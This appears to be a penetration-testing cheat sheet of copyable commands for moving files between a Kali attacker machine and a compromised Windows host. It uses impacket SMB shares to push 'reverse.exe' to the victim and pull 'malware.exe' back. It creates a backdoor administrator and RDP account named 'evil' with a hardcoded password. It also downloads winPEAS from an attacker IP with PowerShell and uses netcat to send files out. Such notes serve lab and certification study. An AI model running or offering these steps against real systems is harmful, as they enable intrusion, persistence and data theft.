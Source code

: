 ## SMB SERVER  
Note1: Use -smb2support if normal way didnt work 
Note2: This might work for Linux too

## Kali to Windows Shell
```
impacket-smbserver kali . (starting smb server in kali)

copy \\ip\kali\reverse.exe C:\PrivEsc\reverse.exe (copying file from kali to windows shell)
```
## Windows Shell to Kali
```
impacket-smbserver kali . (starting smb server in kali)

copy .\malware.exe \\ip\sharename\malware.exe (copying file from windows shell to kali)
```
## Authenticated Transfer (Need local admin rights or local admin creds)
```
net user evil /add japan (japan is pass)
   
net localgroup "Administrators" /add evil

net localgroup "Remote Desktop Users" /add evil

sudo impacket-smbserver kali . -smb2support -username evil -password japan (kali)
```
## PowerShell
```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
## Netcat:
```
nc kaliip port < file
nc -lvnp port > file
```
